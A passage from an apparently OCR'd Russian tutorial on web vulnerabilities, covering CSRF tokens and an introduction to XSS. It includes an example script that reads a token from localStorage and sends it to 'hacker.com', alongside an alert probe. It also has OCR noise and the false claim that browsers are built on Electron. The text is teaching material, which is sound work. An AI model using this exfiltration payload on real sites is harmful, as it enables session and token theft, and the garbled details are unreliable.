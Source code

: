 Имена токенов могут быть не очевидными: X-CSRF-TOKEN, lia-token,
rt, form-id. Их включают в http заголовки в тело post запроса.

Уязвимости CSRF допускают атаки, проводимые без ведома жертвы или ее активного участия. Поиск таких уязвимостей может потребовать изобретательности и готовности тестировать все функции сайта.

<hr>

## XSS - (cross site scripting)

Один из способов воровства информации, хранящийся на клиентской части, являются XSS атаками. Для реализации данного типа атак, злоумышленнику требуется базовое знание javascript, а так же место
Google www.google.ca
для закрепления передаваемого эксплойта. На первый взгляд js является языком для взаимодействия с DOM, а также из-за изоляции ядра Electron, на котором построены современный веб браузеры, не имеет доступ к клиентской машине, но для злоумышленника этого может быть достаточно.

С октября 2009 года данный тип уязвимости показал, что защита клиентской части приложения требует не меньшую чем серверную часть, т.к. может являться точкой входа в серверную часть.

Аналогично другим атакам которые были рассмотрены раннее, XSS возникает когда веб сайт выводи определённые веб символы без определённой обработки. **Среди символов, которые могут быть использованы для проведения XSS, можно выделить несколько знаков:**
- " " - quot
- ' ' - apos
- "<" - it
- ">" - gt
- &

Одним из классических методов выявления xss атак, является данный код:

```html
<script>
  alert("xss");
</script>

<div>
  <h4>echo $name</h4>
  <p>echo $text</p>
  <div>
    <script>
      let token = localStorage.getItem("token");
      fetch("http://hacker.com/${token}");
    </script>
  </div>
</div>
```

Однако XSS может и не являться уязвимостью. Например если вывести document.domain из изолированного iframe вредоносный код на js не получит доступ к cookie. В современных веб-браузерах реализован механизм безопасности под названием принцип одного источника(same origin policy), который ограничивает взаимодействие документов с ресурсами загруженными с одних источников.

**В некоторых ситуациях URL адрес не совпадает с источником, например схемы:**
